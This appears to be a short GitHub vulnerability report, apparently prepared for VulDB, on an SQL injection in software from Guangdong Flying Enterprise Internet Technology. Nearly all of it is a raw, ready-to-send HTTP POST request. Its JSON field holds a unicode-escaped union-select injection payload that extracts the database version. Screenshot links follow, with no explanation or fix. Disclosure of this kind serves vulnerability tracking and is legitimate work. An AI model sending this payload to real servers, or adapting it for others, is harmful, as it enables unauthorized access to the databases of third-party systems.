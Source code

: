 # forVuldb

SQL injection, Guangdong Flying Enterprise Internet Technology Co., Ltd


POST /mobile/validate.js%70 HTTP/1.1
Host: xxx.xxx.xxx.xxx.xxx
User-Agent: Mozilla/4.0 (compatible; MSIE 6.0; Windows NT 5.0)
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Connection: close
Upgrade-Insecure-Requests: 1
Content-Type: application/x-www-form-urlencoded
Content-Length: 292

json={"type":"0","relId":"\u0031\u0027\u0020\u0061\u006e\u0064\u0020\u0031\u003d\u0032\u0020\u0075\u006e\u0069\u006f\u006e\u0020\u0073\u0065\u006c\u0065\u0063\u0074\u0020\u0031\u002c\u0031\u002c\u0040\u0040\u0076\u0065\u0072\u0073\u0069\u006f\u006e\u002d\u002d\u0025\u0032\u0035\u0032\u0030"}

 
![image](https://github.com/curlyyyyyyyy/forVuldb/assets/155808433/99d25a13-770e-43ab-a4a1-a63dd7bd2827)

 ![image](https://github.com/curlyyyyyyyy/forVuldb/assets/155808433/560dbe28-5951-4142-88f9-a1f714027f80)
